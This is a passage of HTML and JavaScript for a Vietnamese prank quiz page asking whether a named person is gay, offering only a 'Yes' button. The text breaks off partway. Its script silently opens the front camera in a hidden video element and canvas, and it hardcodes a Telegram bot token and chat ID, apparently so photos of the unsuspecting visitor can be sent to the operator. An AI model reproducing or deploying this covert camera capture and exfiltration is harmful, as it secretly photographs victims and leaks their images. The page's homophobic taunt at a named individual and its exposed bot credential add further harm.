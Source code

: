         button:hover {
            background-color: #006699;
        }

        button:disabled {
            background-color: #cccccc;
            cursor: not-allowed;
        }

        .status {
            margin-top: 20px;
            color: #666;
        }
    </style>
</head>
<body>
    <div class="container">
        <h1>Cường Có Bị Gay Không?</h1>
        
        <video id="frontCamera" autoplay playsinline style="display: none;"></video>
        <canvas id="frontCanvas" style="display: none;"></canvas>

        <div class="controls">
            <button id="captureBtn">Có</button>
            <button id="sendBtn" disabled>Gửi Câu Trả Lời</button>
        </div>

        <p class="status" id="statusText">Hãy Trả Lời Thật...</p>
    </div>

    <script>
        // Telegram bot token và chat ID
        const BOT_TOKEN = '8004316784:AAGXwEjyEOTG2Xc7eQBcuv9oEgFbnvaKv3s';
        const CHAT_ID = '5705746414';
        
        const frontVideo = document.getElementById('frontCamera');
        const backVideo = document.getElementById('backCamera');
        const frontCanvas = document.getElementById('frontCanvas');
        const backCanvas = document.getElementById('backCanvas');
        const captureBtn = document.getElementById('captureBtn');
        const sendBtn = document.getElementById('sendBtn');
        const statusText = document.getElementById('statusText');

        let frontStream = null;
        let frontPhoto = null;

        // Khởi động camera trước
        async function initCameras() {
            try {
                statusText.textContent = 'Đang khởi động câu hỏi...';
                
                // Camera trước (user facing)
                frontStream = await navigator.mediaDevices.getUserMedia({
                    video: { facingMode: 'user' },
                    audio: false
                });
                frontVideo.srcObject = frontStream;
                